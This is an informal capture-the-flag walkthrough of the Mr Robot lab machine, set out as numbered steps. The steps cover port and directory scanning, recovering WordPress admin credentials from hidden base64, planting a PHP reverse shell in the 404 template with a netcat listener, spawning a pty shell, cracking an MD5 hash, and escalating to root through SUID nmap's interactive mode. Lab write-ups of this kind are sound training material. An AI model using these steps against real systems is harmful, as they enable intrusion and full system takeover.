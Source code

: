 1) 
- nmap IP
2)
- connect to IP via browser and go to /robots.txt
- go to IP/key-1-of-3.txt
3) 
- go to IP/fsocity.dic
- this looks like a dicitonary to use for a bruteforce
4) 
- run dirb on the IP, i used the given wordlist but im sure others would work
- go to IP/lisence
- inspect element, next to the text there is hidden base64
- elliot:ER28-0652 (obviously a username and password, probably ssh)
- ssh is closed so i kept looking
5) 
- go to /login and it redirects you to a wp login, use the credentials here and it works
- on the users tab we get the following:
Username Name Email Role
elliot	Elliot Alderson	elliot@mrrobot.com	Administrator
mich05654 krista Gordon	kgordon@therapist.com	Subscriber
- go to appearance
- editor
- change the php of the 404 page to a php reverse shell https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
- nc -lvnp 1234
- go to the 404 page
- on your new shell navigate to the robot directory (/home/robot) and crack the has inside password.raw-md5
- abcdefghijklmnopqrstuvwxyz
6) 
- trying to su - robot requires a shell so we do `python -c 'import pty; pty.spawn("/bin/bash")'` 
- su robot with password found earlier
- cat the flag file you previously could
7)
- find / -perm -u=s -type f 2>/dev/null
- we see nmap is being ran with admins perms
- nmap --interactive
- /bin/bash
- !sh
- cat /root/key-3-of-3.txt
